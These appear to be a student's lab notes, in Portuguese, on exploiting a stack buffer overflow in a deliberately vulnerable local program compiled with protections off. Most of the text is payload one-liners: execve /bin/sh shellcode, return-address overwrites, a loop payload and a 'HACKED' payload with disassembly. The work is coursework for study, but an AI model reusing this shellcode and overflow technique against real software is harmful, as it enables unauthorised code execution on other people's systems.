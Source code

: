 NOTA: Apenas corre utilizando o gdb


Disable randomization
kali@kali:/media/sf_Shared_SegSoft-Kali/Protocolos/3-stack$ cat /proc/sys/kernel/randomize_va_space 
2

0 = disabled
1 = Conservative Randomization
2 = Full Randomization

Stack execution
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack

===============================================================================

loop infinito
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > badfile
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > smasher

===============================================================================

SHELLL NO GDB

Inicio do buffer: 0x00007fffffffcdc0

---------------------------------

\x6a\x3b\x58\x99\x52\x48\xbb\x2f -> shellcode
\x2f\x62\x69\x6e\x2f\x73\x68\x53 -> shellcode
\x54\x5f\x52\x57\x54\x5e\x0f\x05 -> shellcode

\xc0\xdf\xff\xff\xff\x7f\x00\x00 -> return (meter a apontar para a shellcode)

\x90\x90\x90\x90\x90\x90\x90\x90 -> ebp(?)

\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]

---------------------------------

Exploit shell:
	python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"' > smasher
	gdb stack
	run
Shell code:
	24 bytes -> char code[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";

===============================================================================

Executar loop sem nada dentro (a: goto a;)
python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x89\x7d\xfc\x48\x89\x75\xf0\xeb\xfe\x90"' > smasher
gdb stack
run

===============================================================================
HACKED

python -c 'print "\x90"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "A"*88' > smasher

python -c 'print "A"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x48\x83\xec\x20\x89\x7d\xec\x48\x89\x75\xe0\xc6\x45\xf8\x48\xc6\x45\xf9\x41\xc6\x45\xfa\x43\xc6\x45\xfb\x4b\xc6\x45\xfc\x45\xc6\x45\xfd\x44\xc6\x45\xfe\x0a\xc6\x45\xff\x00\x48\x8d\x45\xf8\x48\xba\x20\xea\xe4\xf7\xff\x7f\x00\x00\x48\x89\xc7\xb8\x00\x00\x00\x00\xff\xd2\xeb\xe6\x0f\x1f\x44\x00\x00"' > smasher
gdb stack
run

(88)
\x55
\x48\x89\xe5
\x48\x83\xec\x20
\x89\x7d\xec
\x48\x89\x75\xe0
\xc6\x45\xf8\x48
\xc6\x45\xf9\x41
\xc6\x45\xfa\x43
\xc6\x45\xfb\x4b
\xc6\x45\xfc\x45
\xc6\x45\xfd\x44
\xc6\x45\xfe\x0a
\xc6\x45\xff\x00
\x48\x8d\x45\xf8
\x48\xba\x20\xea\xe4\xf7\xff
\x7f\x00\x00
\x48\x89\xc7
\xb8\x00\x00\x00\x00
\xff\xd2
\xeb\xe6
\x0f\x1f\x44\x00\x00

0000000000401102 <main>:
  401102:       55                      push   %rbp
  401103:       48 89 e5                mov    %rsp,%rbp
  401106:       48 83 ec 20             sub    $0x20,%rsp
  40110a:       89 7d ec                mov    %edi,-0x14(%rbp)
  40110d:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  401111:       c6 45 f8 48             movb   $0x48,-0x8(%rbp)
  401115:       c6 45 f9 41             movb   $0x41,-0x7(%rbp)
  401119:       c6 45 fa 43             movb   $0x43,-0x6(%rbp)
  40111d:       c6 45 fb 4b             movb   $0x4b,-0x5(%rbp)
  401121:       c6 45 fc 45             movb   $0x45,-0x4(%rbp)
  401125:       c6 45 fd 44             movb   $0x44,-0x3(%rbp)
  401129:       c6 45 fe 0a             movb   $0xa,-0x2(%rbp)
  40112d:       c6 45 ff 00             movb   $0x0,-0x1(%rbp)
  401131:       48 8d 45 f8             lea    -0x8(%rbp),%rax
  401135:       48 ba 20 ea e4 f7 ff    movabs $0x7ffff7e4ea20,%rdx
  40113c:       7f 00 00 
  40113f:       48 89 c7                mov    %rax,%rdi
  401142:       b8 00 00 00 00          mov    $0x0,%eax
  401147:       ff d2                   callq  *%rdx
  401149:       eb e6                   jmp    401131 <main+0x2f>
  40114b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)


=================================================================================================

python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "<EXECUTA>"' > smasher

